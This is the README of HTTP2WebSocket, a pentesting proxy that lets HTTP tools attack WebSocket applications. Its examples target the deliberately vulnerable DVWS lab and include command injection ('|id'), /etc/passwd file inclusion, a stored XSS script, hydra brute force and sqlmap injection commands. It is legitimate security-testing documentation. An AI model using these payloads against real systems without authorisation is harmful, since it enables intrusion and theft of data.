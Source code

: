 HTTP2WebSocket
===============
**Latest release**: 1.0<br>
**License**: GNU GPL

HTTP2WebSocket is tool to translate HTTP/1.1 traffic into Web Sockets traffic.
It can be used in conjunction with standard pentesting tools like sqlmap, dirb, commix or others.<br>
It supports:
* SSL (wss://)
* Proxy
* WS connection initiation based on HTTP Host header

## Requirements
* request
* websocket-client

```bash
pip3 install request websocket-client
```

## Installation
No installation is required.

## Usage
- HTTP2WebSocket act as a proxy between HTTP and Web Socket connection. It expects HTTP incomming traffic and translates it to Web Socket application
- GET method is used to discover endpoinds
- POST method is used to sent data to a web socket application
- OPTIONS method to support CORS preflight request, necessary to XMLHttpRequest object

HTTP2WebSocket can work in two ways:
1. The default one is passing the exact HTTP body to the web socket
2. The second one is passing only the value of the parameter provided.<br>

HTTP2WebSocket can be binded to a specific application (-t parameter) or it can be provided in each HTTP request through Host header.

## Examples
Examples are based on Damn Vulnerable Web Socket virtual machine.<br>
Details on how to setup DVWS here: [DVWS](https://github.com/interference-security/DVWS)<br>
Docker image of DVWS: [DVWS docker image](https://github.com/tssoffsec/docker-dvwsocket)

### One WS app - full POST body
Run the listener on port 3333 and connect to dvws.local:8080 web socket app on every HTTP request:
```bash
python3 HTTP2WebSocket.py -l 3333 -t ws://dvws.local:8080
```

Brute force:
```bash
for i in 'abc' 'qwe' 'admin' 'asd' 'zxc'; do echo -n $i|base64; done > dict-passwords.b64
hydra -t 1 -L dict-passwords.b64 -P dict-passwords.b64 -s 3333 127.0.0.1 http-form-post /authenticate-user-prepared:'{"auth_user"\:"^USER^","auth_pass"\:"^PASS^"}':Incorrect
```

Command execution:
```bash
curl "http://127.0.0.1:3333/command-execution" -d '|id'
```

CSRF<br>
Once logged in open the provided [HTML template](csrf_tmp.html) on the same DVWS browser session, then check the response in the console:
```
HTTP2WebSocket started listening on port: 3333
127.0.0.1 - - [17/May/2024 16:25:30] "OPTIONS /change-password HTTP/1.1" 200 -
127.0.0.1 - - [17/May/2024 16:25:31] "POST /change-password HTTP/1.1" 200 -
 |- RESPONSE --------> Authenticated session is required for changing password.

127.0.0.1 - - [17/May/2024 16:27:27] "OPTIONS /change-password HTTP/1.1" 200 -
127.0.0.1 - - [17/May/2024 16:27:28] "POST /change-password HTTP/1.1" 200 -
 |- RESPONSE --------> Password changed successfully.
```

File inclusion:
```bash
curl --data '/etc/passwd' 127.0.0.1:3333/file-inclusion
```

Error SQL injection:
```bash
sqlmap -u http://127.0.0.1:3333/authenticate-user --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner
```

Blind SQL injection:
```bash
sqlmap -u http://127.0.0.1:3333/authenticate-user-blind --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner
```

Reflected XSS:
```bash
python2 xsssniper.py -u http://127.0.0.1:3333/reflected-xss --post --data="whatever"
```

Stored XSS:
```bash
curl http://127.0.0.1:3333/post-comments --data '{"name":"zzz","comment":"<script>alert(1111)</script>"}'
curl http://127.0.0.1:3333/show-comments -X POST
```

Discovering endpoints:
```bash
dirb http://127.0.0.1:3333/ endpoints-wordlist.txt
```

Other stuff:
```bash
nikto -host http://127.0.0.1:3333/
```

### One WS app - POST body parameter value
Run the listener on port 4444 and connect to dvws.local:8080 web socket app on every HTTP request.<br>
It sends value of the HTTP POST body parameter *fuzz*. Some tools (E.g. commix) don't recognise plain body which is used by WS app.<br>
```bash
python3 HTTP2WebSocket.py -l 4444 -t ws://dvws.local:8080 -P fuzz
```

Command execution:
```bash
python2 commix.py --url "http://127.0.0.1:4444/command-execution" --data "fuzz=127.0.0.1" --skip-empty --technique=C --hostname
```

File inclusion :
```bash
python2 fimap.py -s -b --no-auto-detect -u "http://127.0.0.1:4444/file-inclusion" -P "fuzz=xxx"
```

### Multiple WS apps - full POST body
Run the listener on port 5555. Take Host header from each HTTP request and use it as a target WS application.<br>
*NOTE: Protocol type has to be provided in HTTP Host header (E.g. Host: wss://localhost:1234)*

```bash
python3 HTTP2WebSocket.py -l 5555
```

Brute force:
```bash
hydra -t 1 -L dict-passwords.b64 -P dict-passwords.b64 -s 5555 127.0.0.1 http-form-post /authenticate-user-prepared:'{"auth_user"\:"^USER^","auth_pass"\:"^PASS^"}':Incorrect:"H=Host: ws\://dvws.local\:8080"
```

Command execution:
```bash
curl "http://127.0.0.1:5555/command-execution" -d '|id' -H 'Host: ws://dvws.local:8080'
```

Discover endpoints:
```bash
dirb http://127.0.0.1:5555/ ~/endpoints-wordlist.txt -H Host:ws://dvws.local:8080
```

Other:
```bash
nikto -host http://127.0.0.1:5555/ -vhost ws://dvws.local:8080
```

### Multiple WS apps - POST body parameter value
Run the listener on port 6666. Take Host header from HTTP request and use it as a target WS application.<br>
In this example actual data which is passed to the web socket application is the value of the *fuzz* parameter.
```bash
python3 HTTP2WebSocket.py -l 6666 -P fuzz
```

Command execution:
```bash
python2 commix.py --url "http://127.0.0.1:6666/command-execution" --data "fuzz=127.0.0.1" --skip-empty --technique=C --hostname --host="ws://dvws.local:8080"
```

File inclusion:
```bash
curl --data '/etc/passwd' 127.0.0.1:6666/file-inclusion -H 'Host: ws://dvws.local:8080'
```

Error SQL injection:
```bash
sqlmap -u http://127.0.0.1:6666/authenticate-user --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner --host="ws://dvws.local:8080"
```

Blind SQL injection:
```bash
sqlmap -u http://127.0.0.1:6666/authenticate-user-blind --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner --host=ws://dvws.local:8080
```

### All options example
Single example of all the options of HTTP2WebSocket:<br>

In this example actual data which is passed to the web socket application is the value of the *fuzz* parameter.
```bash
python HTTP2WebSocket.py -l 7777 -t wss://dvws.local:8765 -P fuzz -v -k -p 127.0.0.1:8080
```

|Parameter|Description|
|---|---|
|*-l 7777*|Listen on port 7777/TCP|
|*-t wss://dvws.local:8765*|Bind to dvws.local:8765 WS application through SSL|
|*-P fuzz*|Extract the value of the POST body parameter named *fuzz* and pass it to WS application|
|*-v*|Verbose mode|
|*-k*|Ignore SSL warnings and errors|
|*-p 127.0.0.1:8080*|Send all traffic through jttp proxy: 127.0.0.1:8080|

Sending simple request:
```bash
curl http://127.0.0.1:7777/authenticate-user -v -d 'fuzz=dawid'
```
